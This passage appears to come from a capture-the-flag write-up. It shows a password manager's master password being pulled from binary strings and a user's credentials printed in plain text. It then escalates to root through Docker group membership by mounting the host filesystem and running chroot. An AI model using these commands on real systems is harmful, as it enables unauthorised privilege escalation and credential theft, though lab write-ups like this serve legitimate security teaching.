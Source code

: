 ```
                                                                                                      ���H�]���UH��H���}��u��}�u2�}���u)H�=�.�����H�u,H�5�.H��+H���/������UH�����������]��AWL�=W)AVI��AUI��ATA��UH�-P)SL)�H������H��t�L��L��D��A��H��H9�u�H�[]A\A]A^A_��H�H��Welcome to Josh password manager!Please enter your master password: SampleAccess granted! Here is creds !cat /home/deploy/creds.txtAccess denied! This incident will be reported !@����0����@���h%����
```

- Then, we can get the deploy's credential `deploy:Deploying@pp!`

```
$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
```

- After changing the user as `deploy` by running `su deploy`, we can run `/home/jaeger/linpeas.sh` again to check the vulnerability.

```
═══════════════════════════════╣ Users Information ╠═══════════════════════════════
                               ╚═══════════════════╝
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)
```

- We found out that the user can run docker command, and `docker images` showed that `alpine` exists.

```
$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   5 months ago   5.53MB
```

- After googling, we got this [Docker Privilege Escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation#mounted-docker-socket-escape).

```
$ docker run -it -v /:/host/ alpine chroot /host/ bash
root@5f7c6e049ffd:/# whoami 
root
```

